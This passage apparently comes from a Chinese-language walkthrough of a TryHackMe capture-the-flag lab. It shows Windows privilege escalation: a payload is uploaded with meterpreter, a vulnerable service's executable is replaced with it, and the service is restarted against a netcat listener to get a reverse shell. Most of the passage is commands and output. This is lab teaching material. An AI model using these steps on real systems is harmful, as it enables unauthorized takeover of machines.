    ```
   ![Alt text](/style/image/image-264.png)

   上传至目标：

   ```
   meterpreter > upload /home/kali/桌面/THM/steelmountion/PowerUp/ASCService.exe
   [*] uploading  : /home/kali/桌面/THM/steelmountion/PowerUp/ASCService.exe -> ASCService.exe
   [*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /home/kali/桌面/THM/steelmountion/PowerUp/ASCService.exe -> ASCService.exe
   [*] uploaded   : /home/kali/桌面/THM/steelmountion/PowerUp/ASCService.exe -> ASCService.exe
   ```

+ 进入shell,停止 AdvancedSystemCareService9服务，替换服务文件再启用：

   ```
   meterpreter > shell
   Process 3012 created.
   Channel 8 created.
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.

   C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc stop AdvancedSystemCareService9
   sc stop AdvancedSystemCareService9

   SERVICE_NAME: AdvancedSystemCareService9 
         TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
         STATE              : 4  RUNNING 
                                 (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
         WIN32_EXIT_CODE    : 0  (0x0)
         SERVICE_EXIT_CODE  : 0  (0x0)
         CHECKPOINT         : 0x0
         WAIT_HINT          : 0x0

   C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>dir
   dir
   Volume in drive C has no label.
   Volume Serial Number is 2E4A-906A

   Directory of C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

   12/04/2023  06:02 AM    <DIR>          .
   12/04/2023  06:02 AM    <DIR>          ..
   12/04/2023  05:31 AM    <DIR>          %TEMP%
   12/04/2023  06:02 AM            15,872 ASCService.exe
   02/16/2014  12:58 PM           760,320 hfs.exe
   12/04/2023  05:36 AM           605,567 PowerUp.ps1
                  3 File(s)      1,381,759 bytes
                  3 Dir(s)  44,155,158,528 bytes free

   C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
   copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
   Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): yes
   yes
         1 file(s) copied.
   ```

   + 注意,启动本地监听：``nc -nlvp <local_port>``,再启动AdvancedSystemCareService9服务

   ```
   C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc start AdvancedSystemCareService9
   sc start AdvancedSystemCareService9
